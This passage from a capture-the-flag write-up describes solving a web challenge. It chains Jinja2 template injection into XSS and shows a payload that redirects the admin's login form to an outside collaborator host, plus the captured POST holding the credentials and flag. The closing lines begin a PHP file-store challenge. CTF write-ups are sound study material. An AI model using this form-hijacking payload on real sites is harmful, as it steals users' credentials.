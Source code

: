 We were limited by a length check and our custom message could not be more than 25 characters. But
using [Jinja2 filters](https://jinja.palletsprojects.com/en/3.0.x/templates/#jinja-filters.safe) in
addition to requests parameters we were able to craft an XSS:

`https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Ealert(1);%3C/script%3E`

![XSS triggered](/media/2023.05/hallmark.png)

We needed to retrieve and exhilarate the flag. But we also needed to wait for the form to be fully
loaded. Using `window.onload` would achieve that. After a few try the final payload looked like
this:

`https://brokenlogin.web.actf.co/?message={{request.args.a|safe}}&a=%3Cscript%3Ewindow.onload%20=function(){document.forms[0].action=%22https://zux59nvo5p5igit9du044x2mhdn4bxzm.oastify.com%22};%3C/script%3E`

Sending this link to the admin resulted in an interaction with our collaborator that disclosed the
flag.

```text
POST / HTTP/1.1
Host: zux59nvo5p5igit9du044x2mhdn4bxzm.oastify.com
<SNIP>

username=admin&password=actf%7Badm1n_st1ll_c4nt_l0g1n_11dbb6af58965de9%7D
```

# filestore

* 180 points
* 73 solves

This was a PHP file store service.

```text
dist/
├── Dockerfile
├── list_uploads
├── make_abyss_entry
└── src
    ├── index.php
    └── uploads
        └── placeholder.txt
```
